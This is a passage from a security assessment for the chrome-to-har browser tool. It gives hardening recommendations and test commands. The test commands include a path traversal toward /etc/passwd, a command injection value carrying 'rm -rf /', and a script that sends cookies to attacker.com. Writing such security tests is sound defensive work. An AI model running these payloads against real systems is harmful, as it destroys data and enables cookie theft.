 ### Implementation Guidance:

1. Implement resource limits for Chrome processes
2. Add process monitoring and automatic cleanup
3. Implement graceful shutdown with timeout
4. Add process isolation options
5. Log all process lifecycle events

## 7. Extension Security

### Current Security Assessment

Chrome extensions are currently disabled, but the infrastructure exists:

#### Recommendations for Future Extension Support:

1. Implement extension allowlisting
2. Verify extension signatures
3. Sandbox extension execution
4. Monitor extension API usage
5. Log all extension activities

## Security Testing Procedures

### 1. Input Validation Testing

```bash
# Test path traversal
./chrome-to-har -output "../../../etc/passwd" -url https://example.com

# Test command injection
./chrome-to-har -profile "'; rm -rf /; echo '" -url https://example.com

# Test script injection
./chrome-to-har -script-after "fetch('http://attacker.com/steal?data=' + document.cookie)" -url https://example.com
```

### 2. Network Security Testing

```bash
# Test certificate validation
./chrome-to-har -url https://self-signed.badssl.com/

# Test remote connection
./chrome-to-har -remote-host "attacker.com" -remote-port 9222
```

### 3. Resource Exhaustion Testing

```bash
# Test memory limits
./chrome-to-har -url https://heavy-site.com -timeout 3600

# Test concurrent connections
for i in {1..100}; do
    ./chrome-to-har -url https://example.com &
done
```
